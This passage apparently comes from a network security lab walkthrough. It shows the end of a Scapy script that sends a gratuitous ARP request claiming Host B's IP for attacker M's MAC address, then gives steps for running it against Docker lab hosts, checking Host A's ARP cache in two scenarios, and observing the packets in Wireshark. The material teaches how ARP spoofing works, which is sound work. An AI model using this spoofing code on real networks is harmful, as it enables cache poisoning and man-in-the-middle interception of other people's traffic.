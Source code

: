     # pdst  = Target IP  -> IP we want to impersonate/claim (IP_B - same as psrc)
    arp = ARP(op=1, hwsrc=MAC_M, psrc=IP_B, hwdst=BROADCAST_MAC, pdst=IP_B)

    # Combine Ethernet and ARP layers
    packet = ether/arp

    # Send the packet at Layer 2
    sendp(packet, iface="eth0", verbose=False)

    print("Packet sent.")
    print("------------------------------------")
    ```

2.  **Ensure Wireshark is Capturing:**
    Keep your Wireshark capture running on the `br-xxxx` interface. Use the `arp` filter if desired.

3.  **Scenario 1: B's IP is already in A's cache**
    *   **Establish Cache Entry (on Host A):** Log into Host A (`docker exec -it fc50e4e36736 bash`) and ensure the correct entry exists:
        ```bash
        ping -c 1 10.9.0.6
        arp -n # Verify 10.9.0.6 maps to 02:42:0a:09:00:06
        ```
    *   **Run the Attack Script (on Host M):** Execute the gratuitous ARP script:
        ```bash
        sudo python3 task1c.py
        ```
    *   **Check Cache Again (on Host A):** Re-run `arp -n` on Host A. Observe if the MAC address associated with `10.9.0.6` has changed to M's MAC (`02:42:0a:09:00:69`).

4.  **Scenario 2: B's IP is not in A's cache**
    *   **Clear Cache Entry (on Host A):** Delete the specific ARP entry for Host B:
        ```bash
        arp -d 10.9.0.6
        arp -n # Verify 10.9.0.6 entry is gone
        ```
    *   **Run the Attack Script (on Host M):** Execute the gratuitous ARP script again:
        ```bash
        sudo python3 task1c.py
        ```
    *   **Check Cache Again (on Host A):** Run `arp -n` one more time. See if an entry for `10.9.0.6` has been created and if it maps to M's MAC (`02:42:0a:09:00:69`).

5.  **Observe and Capture:**
    *   Make sure Wireshark captured the gratuitous ARP request packets you sent in both scenarios. Note their structure (broadcast destination, identical source/target IPs in the ARP layer).
    *   Again, consider the question: *Which scenario works, and which does not?* How does the system treat this type of ARP packet compared to the standard reply? (Gratuitous ARPs are often accepted more readily as they are intended for updates).
